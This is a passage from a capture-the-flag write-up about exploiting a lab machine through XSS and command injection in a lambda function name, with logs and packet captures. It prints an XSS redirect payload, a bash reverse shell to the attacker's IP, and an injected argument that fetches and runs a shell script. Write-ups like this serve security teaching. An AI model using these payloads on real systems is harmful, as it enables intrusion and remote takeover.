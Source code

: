 

After a minute or so, there's a request at the webserver:



    10.10.11.112 - - [25/Aug/2021 15:06:11] "GET /xss-6.js HTTP/1.1" 200 -



Four seconds later ICMP arrives:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    15:06:15.548696 IP 10.10.11.112 > 10.10.14.6: ICMP echo request, id 604, seq 1, length 64
    15:06:15.548734 IP 10.10.14.6 > 10.10.11.112: ICMP echo reply, id 604, seq 1, length 64



That's remote RCE!

#### Alternative to IFrame

When talking to IppSec about how I solved this, he pointed out that my
original XSS payload would have actually made this much easier. Instead
of loading remote script, I can send:



    <script>document.location="http://127.0.0.1:8080"</script>



This will redirect the entire browser session over to the dashboard,
and, as long as the automation is done with a full emulated browser
(which it is), it will load the page and the JavaScript, loading the
full application.

#### Shell

I'll create a simple reverse shell script, `shell.sh`:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



I'll submit a lambda again, this time with the name:



    --function-name 'ex; wget 10.10.14.6/shell.sh -O /tmp/.0xdf.sh; bash /tmp/.0xdf.sh'



This payload will request `shell.sh` from my server and store it in
`/tmp/.0xdf.sh`, and then run it with Bash.

After a couple minutes it requests the XSS payload, and then four
seconds later the shell:

